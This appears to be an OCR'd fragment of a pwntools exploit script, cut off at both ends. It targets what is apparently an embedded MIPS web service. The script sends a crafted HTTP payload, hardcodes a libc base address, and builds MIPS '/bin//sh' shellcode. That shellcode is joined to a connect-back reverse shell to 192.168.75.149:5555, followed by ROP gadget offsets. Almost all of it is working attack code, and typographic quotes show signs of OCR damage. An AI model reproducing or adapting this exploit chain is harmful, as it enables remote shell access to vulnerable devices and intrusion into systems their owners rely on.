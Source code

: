 ```

payload+=a+’\r\n’

p.send(payload)

p.recvuntil(’</html>’)

#raw_input()

p.close()

#base address of libc.so.0

base1=0x2ab88000

###shellcode

sc=struct.pack(">I",0x24060101)

sc+=struct.pack(">I",0x04d0ffff)

sc+=struct.pack(">I",0x2806ffff)

sc+=struct.pack(">I",0x27bdffe0)

sc+=struct.pack(">I",0x27e41001)

sc+=struct.pack(">I",0x2484f023)

sc+=struct.pack(">I",0xafa4ffe8)

sc+=struct.pack(">I",0xafa0ffec)

sc+=struct.pack(">I",0x27a5ffe8)

sc+=struct.pack(">I",0x24020fab)

sc+=struct.pack(">I",0xafa00108)

sc+=struct.pack(">I",0x0101010c)

sc+="/bin//sh\x00"

shellcode =’’

shellcode += asm(shellcraft.connect(‘192.168.75.149’,5555))

shellcode += asm(shellcraft.dup2(5,0))

shellcode += asm(shellcraft.dup2(5,1))

shellcode += sc `s0=struct.pack(">I",base1+0x2C794)

s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;…;jr $t9

s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)

s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;…;lw $ra,0x30;jr $ra

s4=struct.pack(">I",base1+0x2bdac)

###rop

```